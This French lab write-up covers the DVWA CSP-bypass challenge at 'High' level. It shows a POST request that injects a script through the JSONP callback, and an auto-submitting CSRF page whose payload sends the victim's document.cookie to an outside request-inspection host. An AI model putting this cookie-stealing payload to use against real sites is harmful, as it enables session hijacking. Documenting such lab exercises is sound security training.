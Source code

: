 # Niveau "High"

Le niveau "High" nous permet de résoudre une opération mathématique grâce à un appel JSONP :

![](../../../../.gitbook/assets/70f2e8752b05cad71757484179b748c5.png)

La méthode de callback se nomme `solveSum()` :

![](../../../../.gitbook/assets/0985bcfa7dbd7e1e9ab39c4e6eabcf5c.png)

Et la réponse permet de résoudre l'opération :

![](../../../../.gitbook/assets/bfadd48cbdebc11e02195c4b87a1d28d.png)

Dans un premier temps, j'ai intercepté la requête du callback afin d'y injecter un bout de JS :

![](../../../../.gitbook/assets/c6a8393d825a817647d8f8cf951ff9fc.png)

Cela semble fonctionner :

![](../../../../.gitbook/assets/14e7d64309d7f3a41bd7dc31ae7e49dd.png)

Le problème est qu'il n'est pas possible de soumettre notre payload à la victime car le `Content-Type` de la réponse est de type `application/json` et donc non exploitable en l'état :

![](../../../../.gitbook/assets/56accc4f100b01e32ab4c66a8438505a.png)

![](../../../../.gitbook/assets/f9b5e242aa1f34ade2d68c1f6327903b.png)

Etant bloqué mais voulant aller plus loin, je suis allé voir ce que d'autres personnes ont réussi à faire. Je suis donc tombé sur ce [writeup](http://halazi.xin/2019/01/09/DVWA-CSP-BYPASS/) qui suit la démarche suivante :

* Analyser les sources du challenge permet d'identifier un endpoint de type **`POST`** permet d'inclure une donnée dans le page csp :

![](../../../../.gitbook/assets/ccf82f8a7c8b4513a015b1dcd13c8c9f.png)

La requête suivante devient donc possible :

```text
POST /vulnerabilities/csp/ HTTP/1.1
Host: 192.168.56.203:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://192.168.56.203:8080/security.php
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=b4rgbmn3q7l71tide90m809bj3; security=high
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 71

include=<script src="source/jsonp.php?callback=alert(1);"></script>
```

{% hint style="warning" %}
Attention à ne pas oublier le Content-Type pour la requête POST
{% endhint %}

Et en effet, notre script est bien exécuté :

![](../../../../.gitbook/assets/14b35a2694d9784692b57fd9be32eff2.png)

Le problème ici est que pour connaitre ce endpoint en **`POST`** il fallait regarder les sources \(ou le deviner\). En général je préfère ne regarder les sources qu'après avoir terminé le challenge.

Bien que l'auteur du writeup n'indique pas comment, il faut maintenant trouver un vecteur d'attaque contre notre victime. On utilise à nouveau l'exploitation de la faille CSRF, présente également sur ce niveau, en hébergeant le script malicieux suivant sur notre serveur :

```markup
<html>
    <head>
        <title>Exploitation POST XSS</title>
    </head>

    <body>
        <p>Coucou !</p>
        <form action="http://192.168.56.203:8080/vulnerabilities/csp/" method="POST" name="postExploitXSS">
            <input type="text" name="include" value="<script src=&quot;source/jsonp.php?callback=fetch('https://requestinspector.com/inspect/01dt9afwk20cb3xj8f1dwfdj6b?cookie='%2Bdocument.cookie);&quot;></script>">
            <button type="submit">Envoyer le message</button>
        </form>

        <script>
            document.forms['postExploitXSS'].submit();
        </script>
    </body>
</html>
```

{% hint style="info" %}
Attention à l'encodage de certains caractères spéciaux au niveau de la valeur à envoyer
{% endhint %}

Lorsque la victime visite notre page malicieuse, l'attaquant reçoit subtilise son jeton de session :

![](../../../../.gitbook/assets/07f3f7439e05a98dcb2a5eb628e005f6.png)

